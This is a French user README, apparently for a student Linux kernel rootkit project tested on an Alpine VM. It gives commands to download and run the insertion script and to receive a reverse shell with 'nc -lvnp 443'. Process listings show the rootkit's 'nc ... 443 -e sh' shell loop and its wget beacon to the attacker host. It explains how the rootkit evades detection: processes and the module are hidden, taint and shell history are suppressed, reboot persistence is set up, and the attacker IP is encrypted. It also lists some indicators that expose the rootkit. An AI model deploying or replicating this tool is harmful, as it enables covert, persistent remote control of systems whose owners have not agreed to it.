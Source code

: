 # Documentation Utilisateur

Exécuter le script de lancement de l’Alpine LFS :  

```c
./script_generate_alpine_LFS.sh
```
Une version plus rapide de ce script fonctionnant avec l'image disk.qcow2 :
```c
./script_alpine_qcow2.sh
```

Se connecter à l'alpine avec les credentials `root:root`

Récupérer le script d’insertion et l’exécuter dans l'alpine

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

Renseigner l'IP de l'hôte au script d’insertion 

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

- Il est possible de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (serveur web n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules` par exemple) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```
